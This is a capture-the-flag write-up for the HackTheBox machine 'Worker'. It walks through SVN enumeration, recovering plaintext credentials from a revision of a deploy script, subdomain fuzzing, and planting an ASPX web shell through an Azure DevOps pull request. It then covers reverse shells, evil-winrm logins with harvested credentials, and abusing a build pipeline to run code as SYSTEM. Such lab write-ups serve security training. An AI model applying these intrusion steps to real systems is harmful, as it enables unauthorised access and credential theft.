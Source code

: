 ```yaml
---
icon: /assets/avatars/worker.png
title: Worker Writeup
author: Valerio Casalino
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/worker.png"> Writeup for Worker (Hackthebox)
---
```


# Worker

I'm tired of saying that every time... Let's start with `nmap`:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.203 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p $ports 10.10.10.203
...
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

Going to port 80, we find the default Microsoft IIS welcome page:

![image-20201220024433640](/assets/worker/image-20201220024433640.png)

Let's enumerate the `svn` service:

```bash
> svn info svn://10.10.10.203
Path: .
URL: svn://10.10.10.203
Relative URL: ^/
Repository Root: svn://10.10.10.203
Repository UUID: 2fc74c5a-bc59-0744-a2cd-8b7d1d07c9a1
Revision: 5
Node Kind: directory
Last Changed Author: nathen
Last Changed Rev: 5
Last Changed Date: 2020-06-20 15:52:00 +0200 (Sat, 20 Jun 2020)
```

We know that there is an user named `nathen` and that this is a `svn` location! Now let's list and download the content (if we can):

```bash
> svn list svn://10.10.10.203/
dimension.worker.htb/
moved.txt
> svn export svn://10.10.10.203/
...
> cat moved.txt
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

Now we have `moved.txt` and the source code for what it seems to be a website named `dimension.worker.htb`. Now... In that folder you'll find info about every subdomain of this thing... I checked all them out so you don't have to :) .

They could have been found by subdomain enumeration, using a good wordlist (like [this one](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-110000.txt)) and `wfuzz`:

```bash
wfuzz -c -w ./subdomains-top1million-110000.txt -u 'http:/assets/worker.htb' -H "Host: FUZZ.worker.htb" --hw 55 --hc 400
...
alpha
story
cartoon
lens
dimension
spectral
twenty
...
```

Anyway... going on with SVN, we want to checkout the repo and see what's inside:

```bash
> svn checkout svn://10.10.10.203/
...
> svn log
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 15:52:00 +0200 (Sat, 20 Jun 2020) | 1 line

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 15:50:20 +0200 (Sat, 20 Jun 2020) | 1 line

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 15:46:19 +0200 (Sat, 20 Jun 2020) | 1 line

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 15:45:16 +0200 (Sat, 20 Jun 2020) | 1 line

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 15:43:43 +0200 (Sat, 20 Jun 2020) | 1 line

First version
------------------------------------------------------------------------
```

We didn't see a deployment script in this version, so let's take a look:

```bash
> svn checkout -r 2 svn://10.10.10.203/
D    moved.txt
A    deploy.ps1
Checked out revision 2.
> cat deploy.ps1
$user = "nathen"
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

Spoiler alert: nathen:wendel98 are creds to get past the http authentication in http://devops.worker.htb.

Going to that web location and authenticating gives us a dashboard in the Azure DevOps:

![image-20201220134345531](/assets/worker/image-20201220134345531.png)

Going around we find the code that is being deployed for `spectral.worker.htb` as a repository, so the normal thing to do is uploading a web shell! I chose [this one](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx). From [this page](http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral/branches), add a branch, put your file or code and initiate a pull request (choose a work item from Boards > Work Items), then from [this page](http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral/pullrequests?_a=mine) select your pull request and accept it from the top menu. Then, visiting the page you'll get a webshell! From that it is a good idea to initiate a reverse shell (the repo resets itself pretty quickly). Use the `powershell` reverse shell to go ahead (refer to [this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) for the code). 

![image-20201220141727852](/assets/worker/image-20201220141727852.png)

List the drives mounted in the system with:

```powershell
# https://www.thewindowsclub.com/list-drives-using-command-prompt-powershell-windows
wmic logicaldisk get name
Name
C:
W:
```

Then, looking in the config files `svnrepos/www/conf`, we can see some (valid) credentials: `robisl:wolves11`. NB: use `dir C:\Users\\` to see valid users! `evil-winrm` is your friend here!

```bash
evil-winrm -i 10.10.10.203 -u robisl -p wolves11
# Get your flag ;)
```

Back to `devops.worker.htb`, if we use the creds to pass the http auth, we'll be interacting with `robisl` dashboard.

We're going to create a Pipeline: Pipelines > New Pipeline > Azure Repos Git > PartsUnlimited > Starter Pipeline. In the appearing YAML file delete `pool: "Default"` since we don't have a default pool, then put the same reverse shell code you used before in the `script` section. To use `powershell`, refer to [MS guide](https://docs.microsoft.com/en-us/azure/devops/pipelines/tasks/utility/powershell?view=azure-devops).

![image-20201220151739539](/assets/worker/image-20201220151739539.png)

Save and run it on new branch! (after initiating a listener on the attacker machine). It will not be immediate, but after a couple of seconds, or minutes...

![image-20201220152625358](/assets/worker/image-20201220152625358.png)

Ps. if it doesn't work, try other reverse shell implementations... Anyway... profit!
